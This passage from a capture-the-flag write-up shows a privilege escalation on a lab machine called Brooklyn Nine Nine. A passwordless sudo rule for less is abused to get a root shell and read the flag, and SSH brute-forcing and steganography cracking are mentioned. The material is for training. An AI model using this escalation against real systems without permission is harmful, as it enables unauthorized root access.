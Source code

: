 ## Escalation
Checking sudo privileges.

```bash
jake@brookly_nine_nine:/home/holt$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

We can run `less` as sudo! Let's use this to escalate our privilege.

```bash
jake@brookly_nine_nine:/home/holt$ sudo less /etc/profile
# whoami
root
```

root.txt:

```bash
root@brookly_nine_nine:/home/amy# cd /root
root@brookly_nine_nine:/root# ls
root.txt
root@brookly_nine_nine:/root# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: REDACTED

Enjoy!!
```

## Alternative to gain access
- Using `stegcracker` to bruteforce the password to get the hidden file from brooklyn photo.

## Lesson learned
- Anonymous FTP login with leftover note.
- Weak user's password so we can bruteforce the SSH login.
- Escalate privilege with less as sudo.

